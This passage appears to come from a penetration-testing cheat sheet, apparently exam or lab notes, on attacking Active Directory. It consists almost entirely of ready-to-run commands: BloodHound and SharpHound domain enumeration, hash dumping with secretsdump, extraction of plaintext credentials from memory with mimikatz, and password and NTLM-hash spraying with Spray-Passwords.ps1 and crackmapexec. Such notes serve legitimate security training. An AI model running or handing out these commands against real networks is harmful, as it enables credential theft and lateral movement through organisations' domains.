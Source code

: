 ```bash
# Sharphound - transfer sharphound.ps1 into the compromised machine
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # collects and saved with the specified details, output will be saved in windows compromised machine
      e.g. Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
```

- Running Bloodhound

```bash
sudo neo4j console
# then upload the .json files obtained

sudo bloodhound
# then upload the .zip files obtained
```

## **Attacking Active Directory Authentication**

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.
</aside>

### Tools to dump hashes (tool: secretsdump.py https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

### Password Spraying

- Dump passwords from memory using mimikatz
```powershell
PS C:\tmp > mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > dumped_pwds.txt
```

-Dump passwords using impacket (try all user accounts that are found using net user /domain)
```bash
impacket-secretdump exam.com/apachesvc@192.168.1xx.101
```

- Brute force small number of guess passwords on list of found usernames (tool: Spray-Passwords.ps1)
  ```bash
  #using LDAP and ADSI to perform a low and slow password attack against AD users
  .\Spray-Passwords.ps1
    .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
  ```
  
- Spray with known password on list of found usernames
```bash
# Crackmapexec uses SMB - check if the output shows 'Pwned!'
# protocols = smb, winrm, 
# --continue-on-success to avoid stopping at the first valid credentials.
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2 --no-bruteforce
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords  --continue-on-success 
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --continue-on-success
        e.g. crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #use continue-on-success option if it's subnet
        e.g. crackmapexec smb 192.168.1xx.100 -u users.txt -p 'ESMWaterP1p3S!'
        e.g. crackmapexec 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
```